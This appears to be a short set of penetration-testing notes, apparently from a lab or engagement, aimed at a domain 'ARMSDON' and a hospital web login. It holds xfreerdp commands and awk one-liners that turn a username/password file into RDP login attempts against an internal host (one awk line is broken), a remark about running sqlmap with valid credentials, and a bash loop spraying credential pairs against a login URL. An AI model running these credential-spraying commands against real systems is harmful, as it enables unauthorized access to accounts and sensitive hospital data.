 
DOMAIN="ARMSDON"
USER=${USER}
PASSWORD=${PASSWORD}

xfreerdp /v:10.102.3.75 /u:${DOMAIN}\${USER} /p:${PASSWORD}

cat userpass.txt | awk -F ',' '{ print "xfreerdp /v:10.102.3.75 /u:${DOMAIN}\${$1}" '

cat userpass.txt | awk -F ',' '{ print "xfreerdp /v:10.102.3.75 /u:ARMSDON\\" $1 " /p:" $2 }'

---

SQL map is much faster using ${URL} with valid usnername/password

---

testing some manual scripts

```bash

for LIST in $(cat users-pass.txt); do
    USERNAME=$(echo $LIST| awk -F ';' '{print $1}')
    PASSWORD=$(echo $LIST| awk -F ';' '{print $2}')
    echo "$USERNAME and ${PASSWORD}"
    curl --silent "http://10.102.7.214/login?hospital=fitton&email=${USERNAME}%40fitton.hospital.com&password=${PASSWORD}" | wc -l
done


```
